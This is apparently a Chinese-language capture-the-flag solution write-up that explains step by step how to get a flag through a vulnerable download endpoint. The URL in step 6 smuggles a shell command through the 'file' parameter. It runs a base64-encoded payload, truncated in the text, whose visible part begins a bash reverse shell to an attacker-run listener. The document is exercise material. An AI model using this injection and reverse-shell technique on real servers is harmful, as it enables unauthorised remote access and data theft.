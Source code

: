 # 任务二解答文档



1. 安装FTP客户端，使用python的FTP模组

```
# 安装pyftpdlib
pip install pyftpdlib

# 当前目录下启动一个ftp服务器，默认监听在 `0.0.0.0:2121` 端口
# 这个监听端口肯定是可以自己设置的哈
python -m pyftpdlib -p 2121 -i 0.0.0.0
```

这一步得到的结果

![image-20240416165044886](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416165044886.png)



2. 把注入代码转化为 `base64` 规则

![image-20240416170007339](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170007339.png)

3. 得到的`base64`结果需要`URL`编码，对其中 `+` 替换为 `%2B`， `/` 替换为 `%2F`.

例如上述结果转化为`bHMgLyA%2B......`

4. 编写`listen.py`监听脚本并执行，

   显示 `listening` 正在监听

   ![image-20240416170129281](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170129281.png)

   ![image-20240416170134277](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170134277.png)

5. 浏览器访问`ip:8080`端口，得到可复制url部分

   ![image-20240416170316437](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170316437.png)

6. `http://ip:port/download?uri=ftp://ftp-client-ip:port/&file=|bash${IFS}-
   c${IFS}%27{echo,YmFzaCAtaSA%2BJiAvZGV2L3....}|{base64,-d}|{bash,-i}%27`

这里面`YmFzaCAtaSA%2BJiAvZGV2L3....`是上述获得的转化后注入段码值

![image-20240416170604396](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170604396.png)



7. 我们可以在监听terminal中看到如下结果，因为刚刚的注入码中，执行的是`ls /`

![image-20240416170622906](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170622906.png)

8. 看到了`flag.txt`，只需要将cat 它的命令转码（获得的base64规则码记得转URL）就可以访问到了（操作类似上述）

![image-20240416170827051](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170827051.png)

![image-20240416170836028](C:\Users\20607\AppData\Roaming\Typora\typora-user-images\image-20240416170836028.png)

9. 现在你就能获取到反弹的flag。==注意：这一题是动态结果，答案跟别的同学不一样是OK的==